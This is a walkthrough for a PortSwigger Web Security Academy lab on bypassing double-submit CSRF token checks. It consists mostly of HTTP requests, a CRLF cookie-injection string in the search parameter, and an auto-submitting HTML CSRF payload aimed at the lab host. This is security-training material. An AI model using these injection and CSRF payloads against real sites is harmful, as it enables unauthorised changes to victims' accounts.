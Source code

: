 # Lab: CSRF where token is duplicated in cookie
# https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

```bash
# Login to wiener:peter and update your password to abc@gmail.com
# Take change-email request and send it to repeater.
```

```bash
# csrf token and csrf cookie to this:

 VAEvcYQ7QxVHtscL6RlhzZyXOZGrsHYa

# change email and send request to see if it works.  

```

```bash
# Search test

GET /?search=test HTTP/2

# Response

HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test;
```

```bash
GET /?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None HTTP/2

# Response:

HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrf=fake; SameSite=None; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3440
```

```bash
# Payload

<html>
 <body>
  <form action="https://0aa600fd03e38ed18311006a00b2002e.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="abcdefgh@email.com"/>
   <input type="hidden" name="csrf" value="fakeblabla"/>
  </form>
 </body>
<img src="https://0aa600fd03e38ed18311006a00b2002e.web-security-academy.net/?search=blabla%0d%0aSet-Cookie%3a%20csrf=fakeblabla%3b%20SameSite=None" onerror="document.forms[0].submit()">
</html>
```

